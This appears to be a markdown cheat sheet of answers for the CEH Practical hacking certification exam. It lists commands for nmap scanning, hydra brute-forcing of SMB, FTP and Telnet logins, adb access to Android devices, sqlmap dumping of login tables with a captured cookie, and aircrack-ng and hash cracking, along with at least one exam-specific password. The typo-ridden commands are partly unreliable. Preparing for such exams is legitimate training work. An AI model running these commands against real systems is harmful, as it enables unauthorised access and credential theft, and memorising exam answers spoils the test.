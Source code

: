 # CEH PRACTICAL
# 1 FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

# 2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

# 3 SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

# 4 Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

# 5 SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

# 6 REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

# 7  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

# 8 FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

# 9 PRIVILEGE ESCALATION
* login with RDP

# 10 ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

# 11 DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

# 12 SQL injection PASSWORD
* login in website
* view profile tab and note the url
* inspect
* console type (document.cookie)
* terminal
* be a root user
* sqlmap -u "(url)" --cookie="(cookie val)" --dbbs
* yes for all
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) --tables
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) -T (longin table) --dump

# 13 

# 14

# 15

# 16 HASH,DVWA
* login with credentials
* go to file and download
* open the file coppy hash and paste in hashes.com or crackstation.com

# 17 IOT TRAFFIC
* open the file in wireshark
* mqtt (in the filter option) 
* click on publish message
* mqtt protocol

# 18 WIFI
* aircrack-ng -w(password file directory) (file directory) 

# 19 njRAT
* open njRAT 
* search and download the file

# 20 VERACRYPT
* crack the hash first
* open veracrypt and use the cracked hash as passwors

